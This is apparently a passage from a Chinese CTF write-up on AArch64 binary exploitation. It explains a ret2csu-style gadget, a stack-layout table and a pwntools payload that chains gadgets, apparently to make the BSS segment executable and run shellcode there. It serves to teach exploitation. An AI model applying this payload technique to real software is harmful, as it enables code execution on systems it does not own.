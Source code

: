 ```
LDR             X3, [X21,X19,LSL#3]
MOV             X2, X22
MOV             X1, X23
MOV             W0, W24
ADD             X19, X19, #1
BLR             X3
CMP             X19, X20
B.NE            loc_4008AC
```

1. 执行`LDR X3,[X21,X19,LSL#3]`，那么此句汇编的意义是，将X19的值逻辑左移(Logical Shift Left)三位后加上X21的值，**取其所指向的值**存储在X3寄存器中。控制 x19 为 0 ，就变成 ``LDR X3,[X21]`` 。

2. 把 X22 寄存器的值作为第三个参数 x2 ；把 X23 寄存器的值作为第二个参数 x1 ；把 X24 寄存器的值（低32位）作为第一个参数 x0 ；

3. 给 X19 寄存器的值加一，调用 X3 寄存器**所指向**的函数，也就需要找个已知地址的地方写入 plt 。
4. 比较 x19 和 x20 ，不相等就再次调用 0x4008AC ，所用 x20 控制为 1 。

最后得出对照表：

| 内存地址 | 内存布局 | 备注                     |
| :------: | :------: | ------------------------ |
|    低    |    ……    | padding                  |
|          |    ……    | Rbp                      |
|          | 0x4008CC | Rip                      |
|          |   X29    |                          |
|          |   X30    |                          |
|          |   X19    | 固定值：0                |
|          |   X20    | 固定值：1                |
|          |   X21    | 存储调用函数地址：X3     |
|          |   X22    | 第三个参数：X2           |
|          |   X23    | 第二个参数：X1           |
|    高    |   X24    | 第一个参数：W0(X0低32位) |

修改完权限之后还需要调用在 bss 段上的 shellcode ，就在上面 payload 上再加调用就行了，得出最后的 payload ：

```python
payload = 'A' * 0x40 
payload += p64(0xdeadbeef)              # X19
payload += p64(0x4008CC)                # X20

payload += p64(0xdeadbeef)               # X29
payload += p64(0x4008AC)                 # X30
payload += p64(0) + p64(1)               # X19 , X20
payload += p64(0x411068 + 0x100)         # X21
payload += p64(0x7)                      # X22
payload += p64(0x1000)                   # X23
payload += p64(0x411000)                 # X24

payload += p64(0xdeadbeef)               # X29
payload += p64(0x411068)                 # X30
payload += p64(0) * 0x6                  # X19 - X24
```
